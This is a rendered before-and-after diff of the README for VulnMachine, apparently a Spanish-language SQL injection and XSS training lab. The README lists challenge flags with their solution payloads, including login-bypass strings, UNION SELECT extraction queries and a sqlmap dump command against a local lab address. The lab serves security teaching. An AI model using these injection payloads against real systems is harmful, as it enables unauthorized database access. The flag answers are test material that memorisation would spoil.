

Before and after one commit to lorenzoo99/VulnMachine, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 97% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update README: add C7 flags, remove emojis, add authors and comments table
https://claude.ai/code/session_01W5MYboXqtg5ABCXsShd4Vp

````diff
--- a/README.md
+++ b/README.md
@@ -1,11 +1,13 @@
-# VulnMachine – SQL Injection Lab
+# VulnMachine – SQL Injection & XSS Lab
 
 > Plataforma de entrenamiento en seguridad ofensiva inspirada en Metasploitable2.
 > **Solo para uso educativo en entornos aislados.**
 
+**Autores:** Lorenzo Lotero, Bairon Martinez, Juan Riveros
+
 ---
 
-## 🚀 Instalación y arranque
+## Instalacion y arranque
 
 ```bash
 # 1. Instalar dependencias
@@ -25,14 +27,14 @@ http://192.168.56.101:5000
 
 ---
 
-## 🏁 Las 12 Banderas
+## Las 14 Banderas
 
 ### Challenge 1 – Login Bypass
 
 | Flag | Nivel | Payload |
 |------|-------|---------|
-| `FLAG{1A_4dm1n_bypass_sqli_b4sic}` | Básico | `usuario: admin'--` o `' OR '1'='1'--` |
-| `FLAG{1B_w4f_bypass_case_OR_1=1}` | WAF | `usuario: ' OR '1'='1'--` (con OR mayúscula) |
+| `FLAG{1A_4dm1n_bypass_sqli_b4sic}` | Basico | `usuario: admin'--` o `' OR '1'='1'--` |
+| `FLAG{1B_w4f_bypass_case_OR_1=1}` | WAF | `usuario: ' OR '1'='1'--` (con OR mayuscula) |
 
 ### Challenge 2 – Error-Based / UNION
 
@@ -41,9 +43,9 @@ http://192.168.56.101:5000
 | `FLAG{2A_err0r_based_data_exfil}` | 1 | `?id=0 UNION SELECT 1,secret_flag,3,4,5,6,7 FROM products WHERE id=3--` |
 | `FLAG{2B_un10n_s3lect_s3cret_t4ble}` | 2 | `?id=1 UNION SELECT 1,secret_flag,3,4,5,6,7 FROM products WHERE id=6--` (con espacio al inicio) |
 
-> **Nota:** La tabla `products` tiene **7 columnas**: id, name, description, category, price, stock, secret_flag
+> Nota: La tabla `products` tiene 7 columnas: id, name, description, category, price, stock, secret_flag
 
-### Challenge 3 – UNION en categoría
+### Challenge 3 – UNION en categoria
 
 | Flag | Nivel | Payload |
 |------|-------|---------|
@@ -57,7 +59,7 @@ http://192.168.56.101:5000
 | `FLAG{4A_bl1nd_bool_sqli_tr00}` | 1 | `?id=6` (usuario superuser tiene la flag en su secret) |
 | `FLAG{4B_bl1nd_b00l_t1me_b4sed}` | 2 | `?id=7` (usuario guest) — usar sqlmap para extraer |
 
-**sqlmap automático:**
+sqlmap automatico:
 ```bash
 sqlmap -u "http://192.168.56.101:5000/challenge/4/level1?id=1" \
        --dbs --dump --level=3 --risk=2 --batch
````
Also changed, not shown: other parts of README.md (+29 -14 lines).
